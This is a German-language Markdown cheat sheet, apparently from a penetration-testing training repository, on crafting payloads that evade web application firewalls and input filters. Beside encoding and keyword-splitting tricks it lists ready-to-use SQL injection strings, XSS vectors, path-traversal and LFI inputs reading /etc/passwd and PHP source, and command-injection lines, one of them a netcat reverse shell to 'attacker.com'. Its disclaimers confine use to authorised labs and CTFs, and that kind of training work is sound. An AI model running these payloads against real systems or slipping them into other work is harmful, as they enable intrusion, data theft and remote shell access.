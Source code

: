 # 🎯 Payload Crafting Tips

**Ziel dieser Datei:**  
Diese Datei bietet eine kompakte Übersicht über Techniken zur Erstellung und Modifikation von Payloads – speziell im Hinblick auf die Umgehung von Web Application Firewalls (WAF), Filtern und anderen sicherheitsrelevanten Eingabekontrollen. Sie richtet sich vor allem an Penetration Tester, CTF-Spieler und Red Team-Mitglieder, die mit komplexen Eingabefiltern konfrontiert sind.

> **Disclaimer:** Diese Inhalte dienen ausschließlich zu Schulungs- und Testzwecken in autorisierten Umgebungen. Die Anwendung in produktiven oder fremden Systemen ohne ausdrückliche Genehmigung ist illegal.



## Inhaltsverzeichnis
- [Typische Encoding-Techniken](#typische-encoding-techniken)
- [Evasion-Techniken bei WAF / Inputfilter](#evasion-techniken-bei-waf--inputfilter)
- [Keywords fragmentieren](#keywords-fragmentieren)
- [Zeitbasierte Payloads (blind testing)](#zeitbasierte-payloads-blind-testing)
- [Beispiele nach Angriffsart](#beispiele-nach-angriffsart)
- [Hinweise](#hinweise)
- [Nützliche Tools](#nützliche-tools)
- [Haftungsausschluss](#haftungsausschluss)




## Typische Encoding-Techniken

### 1. **URL-Encoding**
Wird oft verwendet, um Sonderzeichen zu maskieren.

| Zeichen | Encoding |
|--------|----------|
| `space` | `%20` oder `+` |
| `'`     | `%27` |
| `"`     | `%22` |
| `<`     | `%3C` |
| `>`     | `%3E` |
| `&`     | `%26` |
| `=`     | `%3D` |

> Beispiel:  
`<script>alert(1)</script>` → `%3Cscript%3Ealert(1)%3C/script%3E`



### 2. **Base64-Encoding**
Nützlich bei Befehlseinschleusungen (z. B. in RCEs, SQLi).

Beispiel in PHP:
```php
echo base64_decode('ZWNobyAnSGFja2VkIQ==');

→ Ausgabe: echo 'Hacked!'
```



### 3. Hex-Encoding / Char-Bypass
Alternative Darstellung für Payloads.

```sql
SELECT CHAR(65,66,67); -- ergibt "ABC"
```

Für XSS:

```html
<script>alert(1)</script>
```
Oder
```html
<svg /onload=String.fromCharCode(97,108,101,114,116)(1)>
```



## Evasion-Techniken bei WAF / Inputfilter
### Zeichen-Splitting / Padding
```html
<scr<script>ipt>
```
```bash
/bin/ba$IFS$IFSsh
```

| Technik                    | Beispiel              |
| -------------------------- | --------------------- |
| **Splitting**              | `<scr<script>ipt>`    |
| **Whitespace Tricks**      | `/bin/ba$IFS$IFSsh`   |
| **Keyword Fragmentierung** | `UNION/**/SELECT`     |
| **Comments**               | `ec/*x*/ho test`      |
| **Case Switching**         | `SeLeCt * FrOm users` |



## Keywords fragmentieren
```sql
UNION/**/SELECT
```
```php
ec/*comment*/ho "test";
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Zeitbasierte Payloads (blind testing)
Nützlich bei blind RCE oder SQLi:

```sql
' OR IF(1=1,SLEEP(5),0) --
```
```bash
ping -c 5 127.0.0.1
```



## Beispiele nach Angriffsart
### SQL Injection
- ' OR 1=1 --
- `admin'/**/OR/**/1=1--+`
- UNION SELECT NULL,NULL,NULL--
- CONCAT(CHAR(117,115,101,114),CHAR(112,119))

### Remote Code Execution (RCE)
```bash
127.0.0.1|echo hacked
127.0.0.1;nc -e /bin/bash attacker.com 4444
127.0.0.1&&sleep 5
```

### Cross-Site Scripting (XSS)

```html
<img src=x onerror=alert(1)>
<script>alert(1)</script>
<svg/onload=alert(document.domain)>
```

### Directory Traversal / LFI

```bash
../../../../etc/passwd
....//....//....//etc/passwd
php://filter/convert.base64-encode/resource=index.php
```



## Hinweise
- Unterschiedliche Filter verlangen unterschiedliche Bypässe. Teste iterativ.
- In CTFs werden häufig Custom-Filter eingebaut – Payload-Crafting ist oft die Lösung.
- Nutze Burp Suite's Repeater oder Tools wie `wfuzz`, `ffuf`, `sqlmap` für Automatisierung.
- Viele WAFs prüfen nur Signaturen -> ungewöhnliche Kodierungen oder Fragmentierungen helfen oft.



## Nützliche Tools
- [🔍 HackBar (Burp Extension)](https://portswigger.net/bappstore/93c19861f4df4e60bd9d4568cdd97ed6)
- [🧪 PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [⚡ SecLists (Payload Collections)](https://github.com/danielmiessler/SecLists?utm_source=chatgpt.com)
- [🔎 FuzzDB (Web Fuzzing Payloads)](https://github.com/fuzzdb-project/fuzzdb?utm_source=chatgpt.com)




## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
